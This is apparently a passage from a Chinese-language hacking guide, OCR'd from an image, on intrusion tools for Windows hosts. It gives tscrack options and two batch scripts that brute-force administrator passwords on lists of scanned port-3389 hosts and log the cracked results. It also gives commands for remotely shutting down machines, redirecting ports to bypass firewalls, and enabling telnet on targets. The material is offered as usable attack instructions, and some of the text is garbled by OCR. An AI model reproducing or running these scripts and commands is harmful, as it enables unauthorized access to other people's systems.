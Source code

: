     -f 使用－f后面的密码
    
    -F 间隔时间（频率）
    
    -l 使用－l后面的用户名
    
    -w 使用－w后面的密码字典
    
    -p 使用－p后面的密码
    
    -D 登录主页面

用法示例

tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码

tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户

@if not exist ipcscan.txt goto noscan

@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i

nscan

@echo 3389.txt no find or scan faild

(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)

3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat

@if not exist tscrack.exe goto noscan

@tscrack %1 -l administrator -w pass.dic >>rouji.txt

:noscan

@echo tscrack.exe no find or scan faild

(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)

hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。


## Shutdown.exe

Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）

fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）

fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息

Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。

OpenTelnet.exe (远程开启telnet工具)

opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。

NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。

ResumeTelnet.exe (OpenTelnet附带的另一个工具)
